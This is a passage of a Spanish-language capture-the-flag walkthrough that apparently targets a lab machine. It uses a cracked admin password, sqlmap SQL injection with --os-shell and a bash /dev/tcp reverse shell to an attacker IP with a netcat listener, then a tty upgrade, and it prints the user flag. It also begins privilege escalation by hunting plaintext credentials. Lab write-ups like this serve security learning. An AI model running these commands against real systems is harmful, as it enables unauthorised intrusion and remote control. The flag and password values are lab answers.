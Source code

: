 Que nos reporta `2cb42f8734ea607eefed3b70af13bbd3:qwerty789`, de modo que ya tendríamos una contraseña posible para el usuario administrador. 

## Utilizando sqlmap

Una vez nos logueamos, nos damos cuenta de que se trata de una aplicación que accede de forma directa a una base de datos, por lo que intentaremos utilizar alguna inyección sql. Para este propósito utilizaremos `sqlmap` (se instala con `sudo apt install sqlmap`). 

Esta herramienta requiere de la url de la página y de una cookie de sesión para poder tramitar las peticiones. Para conseguir esta última, es posible utilizar burpsuite, pero es más cómodo instalar la extensión `cookie-editor`. La herramienta se invocaría de la siguiente forma:

```shell
sqlmap -u 'http://10.129.112.32/dashboard.php?search=hola' --cookie="PHPSESSID=dhrk7mq8a04en2j5gfsrq97pn0"
```

Durante la ejecución nos reporta lo siguiente `GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`, por lo que sabemos que es vulnerable a inyección sql. Por tanto, volvemos a lanzar la herramienta con el parámetro `--os-shell`:

```shell
sqlmap -u 'http://<ip>/dashboard.php?search=hola' --cookie="PHPSESSID=<cookie>" --os-shell
```

De esta forma deberíamos haber obtenido una shell. Sin embargo, no es muy estable e interactiva, por lo que ejecutamos:

```shell
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

Y nos ponemos en escucha con netcat por el puerto 443, con tal de mandarnos una reverse shell:

```shell
nc -lvnp 443
```

Una vez ejecutado deberíamos tener una shell con el usuario `postgres`.

## Tratamiento de la tty

En este punto, aplicaremos un [[Tratamiento de la tty]] , con tal de tener una shell más interactiva.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Una vez completado, la flag de usuario debería estar en `/var/lib/postgresql/user.txt`. (`ec9b13ca4d6229cd5cc1e09980965bf7`).

## Escalada de privilegios

Aunque tengamos la flag, seguimos siendo el usuario *postgres*, podemos comprobar sis somos *sudoers*, pero no conocemos la contraseña de dicho usuario. Comenzamos echando un vistazo a los archivos, si hay alguna contraseña en texto plano debería estar en `/var/www/html`. En dicho directorio encontramos un archivo `dashboard.php`, con la siguiente información:
